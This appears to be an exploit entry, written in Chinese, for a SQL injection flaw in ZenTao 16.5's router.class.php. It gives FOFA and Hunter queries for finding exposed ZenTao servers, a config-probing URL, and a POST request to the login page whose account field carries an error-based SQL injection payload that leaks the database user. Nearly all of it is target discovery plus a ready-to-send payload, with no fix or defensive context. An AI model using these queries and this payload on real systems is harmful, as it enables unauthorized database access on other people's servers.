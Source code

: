 # 禅道 16.5 router.class.php SQL注入漏洞

## 网络测绘

fofa: app="易软天创-禅道系统"

hunter: app.name="ZenTao 禅道"

## POC / EXP

```
/zentao/index.php?mode=getconfig

POST /user-login.html

account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```